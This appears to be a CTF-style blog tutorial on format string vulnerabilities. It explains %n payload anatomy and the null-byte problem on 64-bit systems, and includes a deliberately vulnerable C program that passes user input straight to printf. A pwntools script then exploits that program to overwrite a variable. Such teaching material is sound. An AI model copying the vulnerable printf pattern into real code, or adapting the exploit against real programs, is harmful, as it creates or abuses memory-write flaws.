 ```yaml
---
layout: post
title:  Fun With Format String Vulnerabilities
description: For the love of god, by hand again?
date: 2025-04-27
image: '/images/autogenerated_fsv.png'
image_caption: ''
tags: [htb, ctf, format-string, arbitrary write]
---
```


## TL;DR
Just use `pwntools` 😜

## The Issue
There are a lot of blog posts talking about format string vulnerability exploits, and they usually demonstrate them the same way.

```bash
\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\x97\x04\x08JUNK\x97\x97\x04\x08%x%x%126x%n%17x%n%17x%n%17x%n
```
*--source: [hackinglab.cz blog](https://hackinglab.cz/en/blog/format-string-vulnerability/)*

The general anatomy of these payloads is

```none
[padding][4 address bytes]%[value to write]c%[n|hn|hhn]$N...
          ^                  ^                ^         ^
          ` put this addr    |                |         ` write to "Nth" stack entry
            on stack         |                 ` write word (n),
            (pointer)         ` value to write   half word (hn), 
                                to "addr"        or byte (hhn)
```

A lot of documentation repeats this payload format. A problem occurs when we try to implement this on 64-bit machines: the 64-bit address most likely contain NULL bytes ('\x00')

This is because addresses on 64-bit machines are 8 bytes, but typically these map to 6-byte address in virtual memory.

**When you have NULL bytes in your format string printf stops printing.**

## The solution

So what's a hacker to do?

Put addresses at the **end** of the payload, in case they contain null bytes. Or just use `pwntools` like I said.

## Learning Reinforcement

PoC \|\| GTFO right? Here's a vulnerable program.

```c
#include <stdio.h>
#include <unistd.h>


int flag = 0x31337;

int main (void)
{
    int* flagPtr = &flag;
    char buf[64];

    printf("%p\n", flagPtr);

    read(STDIN_FILENO, buf, sizeof(buf));
    printf(buf);

    if (flag != 0x31337) {
        puts("getting close");
    }

    if (flag == 42) {
        puts("win");
    } else {
        puts("lose");
    }

    printf("0x%x\n", flag);
    return 0;
}
```

Executing the program looks like this when I provide "?" for input when it hits read.

```sh
root@1dcc988dd9eb:/pwn# ./fsv
0x557a7325c010
?
?
lose
0x31337
```

Notice the address printed, `0x557a7325c010`, is six bytes, meaning it will contain a null byte if we pack it into a 64bit LE format.

Finally, here is the block of Pwntools code that wins the game:

```python
io = start()

leak = io.readline()
leak_addr = int(leak, 16)
io.info(f"address of flag: 0x{leak_addr:x}")

payload = fit({
    0: [
        b'%42c%12$nDDDDDDD',
        p64(leak_addr)
    ],
}, length=64)

input("\n[Press ENTER to send payload]\n")
io.send(payload)

io.interactive()
```

Some notes about this code:
1. `%42c` - write 42 characters, the "what" value
1. `%12$n` - The number of stack-pointer-offsets to the address. Discovered through trial-and-error.
  1. `$n` We're doing one (1) 4 byte write
1. I put padding ('`D`') at the end of the format string, so calculating the write value doesn't need to take accumulated bytes written into account.
1. The format string is padded to align the address to the stack.
1. The entire payload is padded to a consistent length, because sometimes stuff shifts on the stack when you're messing around with input strings.

To check that everything is aligned on the stack, we can take a look at the first instruction in `main` after it calls `read`.

![stack_image1]({{site.baseURL}}/images/fsv_stack1.png)

The first flag pointer is the stack variable in the code, the second is input by the payload and is the one the payload references.

## That's it!
I still haven't figured out how to use `pwntools` to make this easier/better so keep an eye out for that post. Slàinte!

## Links
1. [Wikipedia - Uncontrolled Format Strings](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
2. [hackinglab.cz blog](https://hackinglab.cz/en/blog/format-string-vulnerability/)